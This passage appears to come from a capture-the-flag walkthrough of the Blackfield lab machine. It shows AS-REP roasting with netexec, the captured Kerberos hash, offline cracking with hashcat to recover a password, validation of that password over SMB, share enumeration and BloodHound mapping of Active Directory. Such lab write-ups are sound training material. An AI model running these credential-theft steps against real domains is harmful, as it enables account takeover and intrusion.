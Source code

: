## Asreproast

Now let’s see if any of the users are asreproastable:

```bash
nxc ldap 10.10.10.192 -u ad_users.txt -p '' --asreproast asreproast.out

LDAP        10.10.10.192    389    DC01             $krb5asrep$23$support@BLACKFIELD.LOCAL:c716c3503c1d7111768ad01d3d73b3ef$50afe194ef6e4c5b9b7f69a34f811743bea2e7f4c096241bcc0a1c584c75fc721308f4351024591d5b1b009cc3ef9493f67afa6ac32feb0d696020430b265eea6b73dccef2d052fb0fd382e86a19833f32494458856407d5b3f72f09567e263904fe84f1283e2e1175166e8d26e4a2e2378cf1acab2db0feec31c52a8c1e29ae68be5042cca68ae71811008a483570ec0b6885ff9c7a5d742ecddfb06546d82e1c31eaa6be4f92ab287c38ea7a1338f3fb2717db91639b47fc2ff1c435367220e0e0736c381b8caff6b336b9b9ccfcddb166455edab6d50281dd5219abfaa2cf13be8453d0599c611de871b50f15d6c2e8d16b1e
```

Let’s see if we can crack the hash for user support. Put the hash into a file and:

```bash
.\hashcat.exe -m 18200 ..\hashes.txt ..\rockyou.txt

support:#00^BlackKnight
```

Let’s see if this is a valid user account:

```bash
nxc smb 10.10.10.192 -u support -p '#00^BlackKnight' --shares

SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic                        Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share 
```

## Bloodhound

We have a valid AD account. Let’s map out the AD now:

```bash
mkdir bh_out
bloodhound-python -u support -p '#00^BlackKnight' -ns 10.10.10.192 -d blackfield.local -c all

sudo neo4j start

bloodhound
```
